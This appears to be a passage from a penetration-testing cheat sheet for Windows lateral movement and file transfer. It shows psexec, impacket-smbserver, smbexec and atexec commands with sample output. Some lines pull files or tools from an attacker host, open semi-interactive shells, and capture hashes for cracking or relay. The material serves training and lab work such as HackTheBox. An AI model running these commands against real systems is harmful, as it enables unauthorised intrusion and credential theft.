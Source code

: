 ```bash

C:\Windows> psexec.exe \\<attackerIP> -u <username> -p <password> -c -csrc "<path_to_file_to_be_uploaded, e.g. C:\path to\PowerView.ps1>" <new_filename_on_windows_box>
```

### 12. impacket-smbserver
The smbserver is a neat tool, that is usable in two ways. 
One - you can use it as a remote network drive to run executables off of directly.
Two - you can copy the desired files from/to the smbserver, e.g. via the `copy` or `cp` commands 
Three ;) - you can capture hashes using the smbserver and then crack the hash or relay/pass it (tip: try your hands on the box `Buff` on hackthebox.com, you can use this technique)

Typically this works fairly well, should you encounter issues then smb-signing or smb2 might be the culprits. 
The latter can be solved easily via the `-smb2support` flag. 

```bash
# on your machine
impacket-smbserver -smb2support <name_of_the_share (you can choose any)> .  
Impacket v0.9.24.dev1+20210815.200803.5fd22878 - Copyright 2021 SecureAuth Corporation

# on the Windows machine
copy \\<attackerIP>\<name_of_the_share>\file_to_be_uploaded.exe .

# what you will see on your machine afterwards

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.100,63109)
```

### 13. impacket-smbexec
Impackets' `smbexec` works in a very similar way to `psexec`, it uploads an executable that will start a service and thus offer a reverse shell back to our script. 

It is also detected by current real-time protection enabled Microsoft Defender. The error you might receive looks something like this: `SMB SessionError: STATUS_OBJECT_NAME_NOT_FOUND(The object name is not found.)`.
The resulting shell is only a semi-interactive shell and some commands might not work in this one (`pwd` among others).
Technically this semi-interactive shell also does not have the ability to upload files per-se but you can combine it with `certutil` or `iex` or another method from the living off the land section. 
```bash
impacket-smbexec <username>:<password>@<windowsIP>
Impacket v0.9.24.dev1+20210815.200803.5fd22878 - Copyright 2021 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```cer

### 14. impacket-atexec
Atexec is a Task Scheduler Service based remote code execution method that can be employed if you have credentials for the remote Windows box. 
It is a little more on the complex side, because you only get remote command execution but no interactive shell or pseudoshell. 
You could however use it to transfer files with the living of the land or impacket-smbserver methods.
```bash
impacket-atexec <username>:<password>@<windowsIP> <command_to_run (e.g. whoami)>
Impacket v0.9.24.dev1+20210815.200803.5fd22878 - Copyright 2021 SecureAuth Corporation

```